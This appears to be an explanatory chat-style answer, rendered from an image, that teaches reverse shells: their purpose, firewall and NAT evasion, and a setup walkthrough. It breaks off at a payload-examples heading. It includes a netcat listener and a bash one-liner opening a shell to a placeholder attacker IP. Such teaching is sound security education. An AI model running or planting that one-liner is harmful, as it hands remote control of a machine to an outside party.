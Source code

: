 Alright Ali — let’s break **reverse shells** down clearly so you understand what they are, how they work, and why they’re used in security testing (and by attackers).

---

## 📌 What is a Reverse Shell?

A **reverse shell** is a type of remote shell connection where:

- **The target machine** (the one you’ve exploited) **initiates** the connection **outbound** to the attacker’s machine.
- Once connected, the attacker can run commands on the target as if they were sitting at its terminal.

It’s called “reverse” because in a **normal (bind) shell** , the attacker connects _into_ the target. In a reverse shell, the direction is flipped — the target connects _out_ to the attacker.

---

## 🔍 Why Use a Reverse Shell?

- **Bypass firewalls** : Many networks block incoming connections but allow outgoing ones (e.g., HTTP, HTTPS).
- **Stealth** : Outbound traffic often gets less scrutiny than inbound.
- **Works in NAT environments** : If the target is behind NAT, it can still connect out to the attacker.

---

## 🛠 How It Works (Step-by-Step)

1. **Attacker sets up a listener** on their machine:

   ```bash
   nc -lvnp 4444
   ```

   This waits for incoming connections on port 4444.

2. **Attacker sends a payload** to the target (via command injection, RCE, phishing, etc.) that tells it to connect back:

   ```bash
   bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
   ```

   - This opens a TCP connection from the target to the attacker.
   - Standard input/output/error are redirected over that connection.

3. **Connection established** :

   The attacker’s listener now has an interactive shell on the target.

---

## 📦 Common Reverse Shell Payload Examples
